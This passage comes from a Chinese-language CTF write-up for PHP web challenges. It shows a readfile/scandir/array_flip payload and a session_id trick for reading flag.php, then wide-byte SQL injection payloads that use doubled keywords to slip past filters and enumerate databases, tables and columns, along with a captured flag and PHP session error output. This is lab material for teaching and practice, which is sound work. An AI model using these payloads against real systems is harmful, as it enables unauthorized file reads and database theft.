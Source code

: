 翻数组相关的函数找到array_rand,但是遗憾的是返回的是键名,如果我们能交换键名和值就可以拿到flag.php了,再找一找发现array_filp

最后的payload

`var_dump(readfile(array_rand(array_flip(scandir(chr(time()))))));`

### 解法二

`readfile(session_id(session_start()))`

然后`PHPSESSID=flag.php`读到flag







##  BabySqliv2.0

提到中文,宽字节注入绕过引号

过滤select,union,where等

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),1%23`

回显密码

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(schema_name)+FROM+information_schema.schemata)%23`



数据库:`information_schema,web_sqli`

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(table_name)+FROM+information_schema.tables+WHEwhereRE+TABLE_SCHEMA=database())%23`

表:`f14g,user`

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(column_name)+FROM+information_schema.columns+WHwhereERE+table_name=char(102,49,52,103))%23`



列:`b80bb7740288fda1f201890375a60c8f,327a6c4304ad5938eaf0efb6cc3e53dc`



读取flag,但是有长度限制

最后得到抖肩舞+flag

GXY{g0Od_job1im_so_vegetable}



## babysqliv3.0

对phpsession注入报错

```html
<br />
<b>Warning</b>:  session_start(): The session id is too long or contains illegal characters, valid characters are a-z, A-Z, 0-9 and '-,' in <b>/var/www/html/search.php</b> on line <b>2</b><br />
<br />
<b>Warning</b>:  session_start(): Cannot send session cache limiter - headers already sent (output started at /var/www/html/search.php:2) in <b>/var/www/html/search.php</b> on line <b>2</b><br />
<meta http-equiv="Content-Type" content="text/html; charset=uft-8"/><title>login</title><script>alert('Wrong pass');location.href='./index.php'</script><br />
<b>Warning</b>:  Unknown: The session id is too long or contains illegal characters, valid characters are a-z, A-Z, 0-9 and '-,' in <b>Unknown</b> on line <b>0</b><br />
<br />
<b>Warning</b>:  Unknown: Failed to write session data (files). Please verify that the current setting of session.save_path is correct () in <b>Unknown</b> on line <b>0</b><br />

```
